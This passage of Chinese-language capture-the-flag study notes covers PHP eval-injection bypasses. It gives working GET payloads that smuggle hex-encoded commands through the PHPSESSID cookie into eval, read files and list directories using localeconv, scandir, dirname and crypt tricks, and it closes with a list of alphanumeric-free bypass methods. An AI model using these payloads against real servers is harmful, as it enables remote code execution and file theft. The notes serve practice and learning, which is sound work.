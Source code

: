 抓包修改PHPSESSID的值为./flag

用`?code=show_source(session_id(session_start()));`

`?code=eval(hex2bin(session_id(session_start())))`        把PHPSESSID改成要执行命令的hex编码（一些符号不能写入PHPSESSID，要编码）

#### 使用scandir()进行文件读取

1. scandir() — 列出指定路径中的文件和目录(PHP 5, PHP 7, PHP 8)
2. getcwd() — 取得当前工作目录(PHP 4, PHP 5, PHP 7, PHP 8)
3. current() — 返回数组中的当前值(PHP 4, PHP 5, PHP 7, PHP 8) 
4. pos() — current()的别名函数，功能完全相同
5. array_reverse() — 返回单元顺序相反的数组(PHP 4, PHP 5, PHP 7, PHP 8)
6. next() — 将数组中的内部指针向后移动(PHP 4, PHP 5, PHP 7, PHP 8)
7. prev() — 将指针往回移动一位
8. end() — 将指针移动到数组末尾
9. reset() — 将指针移动到数组开头
10. array_rand — 从数组中随机取出一个或多个随机键
11. array_flip() — 交换数组中的键和值(PHP 4, PHP 5, PHP 7, PHP 8)
12. chdir() — 系统调用函数（同ed），用于改变当前工作目录
13. strrev() — 用于反转给定的字符串
14. crypt() — 用来来加密，目前Linux平台上加密的方法大致有MD5, DES, 3 DES
15. hebrevc() — 把希伯来文本从右至左的流转换为左至右的流。

**localeconv()**	只要知道它第一个键值是`.`  可以代表本目录

`?code=print_r(scandir(current(localeconv())));`

`?code=print_r(end(scandir(getcwd())));`

getcwd()相当于current(localeconv())的作用

**如何读取文件？show_source	highlight_file	readfile()**

查看上级目录，使用dirname()

`?code=print_r(dirname(getcwd()));`

一直向上目录

`dirname(chdir(dirname(getcwd())))`

使用array_rand()和array_flip()组合随机读取（移动指针操作也行啊）

 `crypt(serialize(array()))`每次结果随机，最后可能出现/

用strrev()反转，用ord()和chr()取第一个字符/

`chr(ord(strrev(crypt(serialize(array())))))`

使用scandir()读取。

## 14：无字母数字绕过

1. 异或运算绕过
2. 取反绕过
3. 自增绕过
4. 特殊符号过滤
